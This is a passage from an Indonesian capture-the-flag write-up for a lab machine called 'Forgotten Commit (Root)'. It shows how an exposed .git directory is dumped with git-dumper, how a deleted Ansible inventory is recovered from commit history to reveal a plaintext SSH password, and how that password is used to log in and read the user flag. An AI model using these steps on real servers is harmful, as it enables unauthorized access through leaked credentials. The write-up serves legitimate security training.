



# Forgotten Commit (Root) — Analisis

[← Overview](01-forgotten-commit-root.md) · [Index](index.md)

## 2.1 Webroot dan eksposur `.git`

Situs utama hanya halaman statis, tetapi response untuk `/.git/HEAD` tidak 404.
Ini indikasi klasik bahwa seluruh direktori `.git` ikut ter-deploy ke webroot.
Alih-alih menebak file satu per satu, seluruh repository ditarik dengan
`git-dumper`:

```bash
git-dumper http://10.10.20.21/ /tmp/nexus_repo
```

Hasilnya adalah repository dengan **5 commit**. `git-dumper` mengambil object
Git yang masih tersedia, lalu merekonstruksi working tree dan history.

## 2.2 History Git membocorkan inventory Ansible

Commit terbaru menghapus file inventory, tetapi Git menyimpan versi sebelumnya.
Urutan yang relevan:

```text
5c65d99 (HEAD -> main) Remove Ansible inventory
8acfc1f Add Ansible deployment inventory
```

Commit `5c65d99` menghapus `ansible/inventory.ini`. Commit induknya, `8acfc1f`,
masih berisi:

```ini
[web]
srv.nexus.internal ansible_user=leonardo ansible_password="Dev0pment#2026!"
```

Ini adalah **credential leak dari history Git**: file dihapus di commit baru,
tetapi object lama tetap ada dan bisa dibaca dengan `git show`.

```bash
git -C /tmp/nexus_repo show 8acfc1f:ansible/inventory.ini
```

## 2.3 Foothold SSH sebagai `leonardo`

Kredensial dari inventory dipakai untuk SSH:

```bash
ssh leonardo@10.10.20.21
# password: Dev0pment#2026!
```

Setelah masuk:

```bash
id
cat /home/leonardo/user.txt
```

Output yang tercatat:

```text
uid=1000(leonardo) gid=1000(leonardo) groups=1000(leonardo)
NFX{g1t_h1story_s3cr3ts_l34d_t0_ssh}
```

User flag ini bukan flag challenge Root, tetapi merupakan bukti bahwa jalur
foothold berhasil dan prasyarat untuk enumerasi lokal terpenuhi.

### Evidence langkah ini



*Terminal evidence — live rerun 2026-11-09 (`02-live-dump.txt`).*



*Terminal evidence — live rerun 2026-11-09 (`02b-live-git-log.txt`).*



*Terminal evidence — live rerun 2026-11-09 (`03-live-user-sudo.txt`).*

**Berkas mentah langkah ini:**

- [`02-live-dump.txt`](assets/forgotten-commit-root/02-live-dump.txt)
- [`02b-live-git-log.txt`](assets/forgotten-commit-root/02b-live-git-log.txt)
- [`03-live-user-sudo.txt`](assets/forgotten-commit-root/03-live-user-sudo.txt)
